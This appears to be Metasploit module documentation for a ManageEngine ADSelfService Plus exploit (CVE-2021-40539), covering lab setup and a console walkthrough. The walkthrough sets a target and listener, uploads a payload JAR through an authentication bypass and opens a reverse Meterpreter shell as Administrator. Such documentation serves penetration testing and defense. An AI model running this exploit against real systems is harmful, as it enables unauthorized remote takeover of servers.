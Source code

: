 ## Vulnerable Application

### Setup

Follow the [Getting Started] guide. You do not need AD, and you can skip licensing.

1. Download [ManageEngine_ADSelfService_Plus_64bit.exe]
1. Run the installer

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6113/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### `TARGETURI`

Path traversal for auth bypass. `/./` is the default.

## Scenarios

### ADSelfService Plus 6113 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539
[*] Using configured payload java/meterpreter/reverse_https
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > options

Module options (exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /./              yes       Path traversal for auth bypass
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper


msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set rhosts 172.16.57.10
rhosts => 172.16.57.10
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > run

[*] Started HTTPS reverse handler on https://172.16.57.1:8443
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully bypassed REST API authentication.
[*] Uploading payload JAR: P2dP5Ric88T.jar
[+] Successfully uploaded payload JAR
[*] Executing payload JAR
[*] https://172.16.57.1:8443 handling request from 172.16.57.10; (UUID: tyuzturs) Staging java payload (58615 bytes) ...
[+] Successfully executed payload JAR
[+] Deleted P2dP5Ric88T.jar
[*] Meterpreter session 1 opened (172.16.57.1:8443 -> 127.0.0.1 ) at 2021-11-15 18:08:25 -0600

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-9MFFR3JM534
OS          : Windows Server 2016 10.0 (amd64)
Meterpreter : java/windows
meterpreter >
```
